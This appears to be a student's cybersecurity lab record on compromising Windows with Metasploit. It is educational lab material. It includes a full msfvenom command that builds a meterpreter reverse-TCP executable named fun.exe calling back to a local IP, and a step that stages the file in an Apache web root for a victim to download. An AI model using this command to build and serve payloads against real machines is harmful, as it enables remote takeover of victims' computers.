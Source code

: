 # Reg No:212222110056
# NAME:yuva krishna k
# Compromising-windows-using-Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/13f8a0f8-4657-4262-8969-889a4294fdfa)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/user-attachments/assets/da56f33a-edde-4105-ae85-d386f38b7fdd)

copy the fun.exe into the apache ``/var/www/html``` folder
![image](https://github.com/user-attachments/assets/ce4f6a71-b409-4223-b111-9789adfd506f)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
